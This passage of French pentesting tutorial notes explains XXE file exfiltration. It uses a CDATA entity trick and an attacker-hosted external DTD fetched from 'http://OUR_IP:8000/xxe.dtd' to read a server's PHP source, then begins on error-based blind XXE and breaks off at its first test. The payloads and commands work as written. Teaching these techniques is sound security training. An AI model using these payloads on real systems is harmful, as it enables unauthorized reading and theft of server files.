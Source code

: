 Pour lire des fichiers **non-XML ou binaires** sans casser le format XML, on peut utiliser **CDATA** :

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
<email>&joined;</email>
```

* Ici, `&joined;` combine les entités pour créer un bloc CDATA contenant le fichier.
* Mais XML **bloque la jonction interne/externe**, donc ça ne fonctionne pas directement.

✅ Solution : **XML Parameter Entities** `%` dans le DTD, qui peuvent être combinées depuis une source externe :

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

Puis dans le XML envoyé à la cible :

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
<email>&joined;</email>
```

* `%xxe;` inclut notre DTD externe hébergée.
* `&joined;` affiche le **contenu brut** du fichier `submitDetails.php` sans base64.

⚠️ Limites : certains fichiers modernes peuvent être bloqués par le serveur pour éviter les **boucles d’entités XML**.

💡 Astuce : cette technique est très utile quand les méthodes XXE classiques échouent ou avec d’autres frameworks web.

***

### <mark style="color:blue;">Error Based XXE</mark>**XXE “aveugle” avec erreurs**

Si l’application n’affiche **aucune sortie**, on ne peut pas lire directement les fichiers via XXE.

* Si elle affiche des **erreurs (ex. PHP)**, celles-ci peuvent révéler des infos sensibles comme les chemins du serveur.
* Sinon, on est en mode **totalement aveugle**.

**Test initial**
